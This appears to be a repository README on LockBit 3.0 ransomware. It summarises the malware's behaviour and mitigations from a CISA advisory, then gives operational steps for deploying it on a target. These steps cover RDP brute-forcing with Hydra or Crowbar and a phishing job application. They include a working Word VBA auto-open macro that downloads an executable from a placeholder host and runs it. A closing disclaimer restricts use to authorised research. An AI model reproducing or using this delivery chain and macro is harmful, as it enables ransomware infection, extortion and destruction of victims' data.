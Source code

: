 # LockBit
LockBit 3.0, also known as “LockBit Black,” is more modular and evasive than its previous versions and shares similarities with Blackmatter and Blackcat ransomware.

## Initial Access
Anyone deploying LockBit 3.0 ransomware gains initial access to victim networks via remote desktop protocol (RDP) exploitation, drive-by compromise, phishing campaigns, abuse of valid accounts, and exploitation of public-facing applications.

## Execution and Infiltration
During the malware routine, if privileges are not sufficient, LockBit 3.0 attempts to escalate to the required privileges. LockBit 3.0 performs functions such as:

* Enumerating system information such as hostname, host configuration, domain information, local drive configuration, remote shares, and mounted external storage devices
* Terminating processes and services
* Launching commands
* Enabling automatic logon for persistence and privilege escalation
* Deleting log files, files in the recycle bin folder, and shadow copies residing on disk

After files are encrypted, LockBit 3.0 drops a ransom note with the new filename <Ransomware ID>.README.txt and changes the host’s wallpaper and icons to LockBit 3.0 branding. If needed, LockBit 3.0 will send encrypted host and bot information to a command and control (C2) server.

## Mitigations
* Have an anti-virus software separate from the built-in Windows defender installed.
* Keep all systems, software, and firmware up to date
* Disable unused ports
* Take backups and keep them safe

## Testing on Authorized Systems
To test LockBit 3.0 on a system, you must first generate the files required before accessing the system. The batch file in this repo can automate this process.

Once that has been done, there are several different methods for accessing the system and many are included in guides online. The process for a couple of methods will be listed here.

### Accessing a System with RDP
This method will not work if the target does not have RDP enabled or does not have the port forwarded on the network. Make sure this is done beforehand. Brute forcing the password also takes a significant amount of time and if the password is good enough, it may be near impossible.
1. Know the IP address of your target or obtain it with NMAP
2. Make sure the port 3389 is open on the target's network with NMAP
3. Use a brute force tool such as Crowbar or Hydra
4. Connect using a client of your choice
5. Copy the LockBit 3.0 files to the remote machine using your client, a cloud service, FTP, or any other method of your choice
6. Execute Lockbit 3.0

### Accessing a System with a Phishing Scheme
In this case, an email will be sent with a job application. When the job application is opened (using Microsoft Word) and the button to start editing it is pressed, LockBit 3.0 is downloaded and executed. There is a guide online, but here are some tips:
1. In Word, enter dev mode with `Alt+F8`
2. The macro in the guide works, but only for an executable already in the path. An easy way to copy and execute LockBit 3.0 is to download and run the executable in the macro. Here is a version of the macro that implements this:
```
Sub Document_Open()

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://example.com/LB3.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "c:\temp\LB3.exe", 2 '//overwrite
end with

CreateObject("WScript.Shell").Run "c:\temp\LB3.exe"

End Sub
```
3. Follow everything else in the guide to create the final document
4. Send an email containing the document, and when the user opens and presses "Enable Editing", it should execute LockBit 3.0

## [#StopRansomware: LockBit 3.0](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a)

**This project is only for the investigation of the ransomware and how it can be mitigated. It is not to be used to attack systems without authorization.**

“#Stopransomware: LockBit 3.0: CISA.” Cybersecurity and Infrastructure Security Agency CISA, 15 Mar. 2023, https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a. 

